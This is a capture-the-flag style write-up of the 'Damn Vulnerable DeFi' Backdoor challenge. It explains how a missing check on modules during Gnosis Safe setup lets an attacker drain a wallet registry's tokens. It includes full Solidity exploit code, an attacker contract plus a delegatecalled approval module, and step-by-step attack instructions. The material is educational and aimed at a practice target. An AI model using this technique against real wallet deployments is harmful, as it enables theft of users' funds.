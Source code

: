 # Damn Vulnerable DeFi Challenge #11 Solution — Backdoor

## Challenge Objective:

The challenge is about exploiting a vulnerability in a DeFi protocol that uses Gnosis Safe wallets. The protocol has a WalletRegistry contract that creates and registers Gnosis Safe wallets for beneficiaries. When a beneficiary's wallet is registered, the registry sends some Damn Valuable Tokens (DVT) to the wallet. The challenge is to steal all the DVT tokens from the WalletRegistry contract.

## Vulnerability:

The vulnerability lies in the way the Gnosis Safe wallets are initialized. The WalletRegistry contract checks if the wallet is correctly initialized, but it doesn't check if any modules were added during the initialization. This allows an attacker to add a malicious module during the initialization of the Gnosis Safe wallet.

## Exploit:

The exploit involves creating a malicious module that approves the attacker to spend the wallet's tokens. The attacker deploys this module during the initialization of the Gnosis Safe wallet. When the WalletRegistry contract sends DVT tokens to the newly created wallet, the attacker can immediately transfer these tokens to their own address using the approval given by the malicious module.

```solidity
import "@gnosis.pm/safe-contracts/contracts/common/Enum.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "../DamnValuableToken.sol";

contract AttackBackdoor {
    address public owner;
    address public factory;
    address public masterCopy;
    address public walletRegistry;
    address public token;

    constructor(
        address _owner,
        address _factory,
        address _masterCopy,
        address _walletRegistry,
        address _token,
        address[] memory users
    ) {
        // Setup vars
        owner = _owner;
        factory = _factory;
        masterCopy = _masterCopy;
        walletRegistry = _walletRegistry;
        token = _token;

        // Deploy module contract (this is required as it will be delegate called
        // so we cannot call the token contract directly.)
        AttackBackdoorModule abm = new AttackBackdoorModule();

        // Setup module setup data
        string memory setupTokenSignature = "approve(address,address,uint256)";
        bytes memory setupData = abi.encodeWithSignature(
            setupTokenSignature,
            address(this),
            address(token),
            10 ether
            );

        // Loop each user
        for (uint256 i = 0; i < users.length; i++) {
            // Need to create a dynamically sized array for the user to meet signature req's
            address user = users[i];
            address[] memory victim = new address[](1);
            victim[0] = user;

            // Create ABI call for proxy
            string
                memory signatureString = "setup(address[],uint256,address,bytes,address,address,uint256,address)";
            bytes memory initGnosis = abi.encodeWithSignature(
                signatureString,
                victim,
                uint256(1),
                address(abm),
                setupData,
                address(0),
                address(0),
                uint256(0),
                address(0)
            );

            // Deploy the proxy with all the exploit data in initGnosis
            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(factory)
                .createProxyWithCallback(
                    masterCopy,
                    initGnosis,
                    123,
                    IProxyCreationCallback(walletRegistry)
                );

            // Proxy has approved this contract for transfer in the
            // module setup so we should be able to transfer some ETH
            DamnValuableToken(token).transferFrom(
                address(newProxy),
                owner,
                10 ether
            );
        }
    }
}
```

// Backdoor module contract that has to be deployed seperately so
// 1. It is able to called since the above contract's constructor is not complete
// 2. It is delegate called so we cannot call the token approval directly.
contract AttackBackdoorModule {
function approve(address approvalAddress, address token, uint256 amount) public {
DamnValuableToken(token).approve(approvalAddress, amount);
}
}

## Steps:

1. Deploy a malicious module that approves the attacker to spend the wallet's tokens.
2. Generate the ABI to call the setupToken() function in the malicious module.
3. Call the exploit with the above ABI and the list of users.
4. Generate the ABI to setup the new Gnosis wallet with the ABI from step 2, such that the callback address and function is the wallet registry.
5. Call the ProxyFactory contract with the ABI from step 4 and a few other parameters with a callback to the WalletRegistry proxyCreated() function.
6. The ProxyFactory deploys the new Proxy and calls setup() on the proxy.
7. The new proxy is setup and sets up the module calling back to the malicious contract.
8. The setupToken() function approves 10 ether to be spent by the malicious contract of the proxies token funds.
9. The proxyCreated() function is called back on the wallet registry and passes checks and transfers 10 ether to the newly created wallet.
10. Transfer the 10 ether from the Gnosis wallet to the attacker address.
11. Repeat for each beneficiary from within the contract and hence 1 transaction.

## Takeaway:

This challenge highlights the importance of thoroughly checking all aspects of a contract's initialization process. It shows how a seemingly harmless operation (adding a module during initialization) can be exploited to gain control over a contract's assets. It also demonstrates the power of delegate calls and how they can be used to execute arbitrary code in the context of another contract.
